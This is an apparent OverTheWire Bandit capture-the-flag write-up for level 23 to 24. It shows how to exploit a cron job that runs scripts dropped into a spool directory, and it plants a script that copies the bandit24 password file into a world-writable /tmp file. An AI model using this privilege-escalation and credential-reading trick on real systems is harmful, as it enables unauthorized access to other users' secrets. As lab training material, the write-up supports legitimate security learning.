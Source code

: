 # Bandit23 → 24: The Shell Script Heist

[Challenge](https://overthewire.org/wargames/bandit/bandit24.html)

---

## Level Description

The password for the next level is hidden, guarded by a program running automatically via **cron**, the time-based job scheduler. This level requires creating your own shell script—a big step forward! The script will be executed by the cron job, and its output will reveal the password.

---

## The Process

**Step 1: Entering the Realm of bandit23**

I logged into bandit23 server, ready for the next challenge:

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

After entering the password, I found myself in an empty home directory. But I knew better than to be fooled—there was always a clue hidden somewhere.

**Step 2: The Cron Job Clue**

The level description mentioned a **cron job** running automatically. I decided to investigate the `/etc/cron.d/` directory, where cron configurations are stored:

```bash
cd /etc/cron.d/
ls
```

The directory revealed several cron job files:

```bash
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir  sysstat
```

The file `cronjob_bandit24` stood out. It had to be the key to unlocking the next level.

**Step 3: Decoding the Cron Job**

I opened the `cronjob_bandit24` file to see what it was up to:

```bash
cat cronjob_bandit24
```

The output was:

```bash
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

This meant that a script, `/usr/bin/cronjob_bandit24.sh`, was running every minute as the `bandit24` user. The `&> /dev/null` part ensured that any output was discarded, making it harder to detect. But I wasn’t going to let that stop me.

**Step 4: Unmasking the Script**

I decided to inspect the script to understand its purpose:

```bash
cat /usr/bin/cronjob_bandit24.sh
```

The script contained the following:

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Here’s what it did:

1. It determined the current user (`whoami`).
2. It navigated to `/var/spool/$myname/foo`.
3. It executed and deleted all scripts in that directory. but only if the owner was `bandit23`.

This was a clever setup. The cron job was essentially running any script placed in `/var/spool/bandit24/foo` by `bandit23`.

**Step 5: Crafting the Shell Script**

I needed to create a script that would retrieve the password for Bandit24 and store it somewhere accessible. I decided to create a temporary directory in `/tmp/` to store the script and its output:

```
mkdir /tmp/fuckyou
cd /tmp/fuckyou
```

I then created a shell script named `getpassbandit24.sh`:

```
vim getpassbandit24.sh
```

The script contained the following:

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/fuckyou/pass_bandit24.txt
```

This script would copy the password for Bandit24 to a file in `/tmp/fuckyou/`.

**Step 6: Setting Permissions**

I made sure the script was executable:

```
chmod 777 getpassbandit24.sh
```

I also created an empty file to store the password:

```
touch pass_bandit24.txt
chmod 777 pass_bandit24.txt
```

**Step 7: Placing the Script in the Target Directory**

I copied the script to `/var/spool/bandit24/foo`:

```
cp getpassbandit24.sh /var/spool/bandit24/foo
```

**Step 8: Waiting for the Cron Job to Execute**

The cron job runs every minute, so I waited a bit and then checked the output file:

```
cat /tmp/fuckyou/pass_bandit24.txt
```

And there it was—the password for Bandit24.

## Password for the Next Level

`[REDACTED]`

## What I Learned

- **Cron Jobs**: I learned how to inspect and understand cron job configurations in `/etc/cron.d/`.
- **Shell Scripting**: This level reinforced the importance of writing and executing shell scripts.
- **File Permissions**: I gained insight into how file permissions can be used to control access and execution.

## Helpful Reading Material

- [Cron Jobs in Linux](https://linux.die.net/man/5/crontab): A guide to understanding cron jobs and their configuration.
- [Shell Scripting](https://linux.die.net/man/1/bash): Documentation on writing and executing shell scripts.
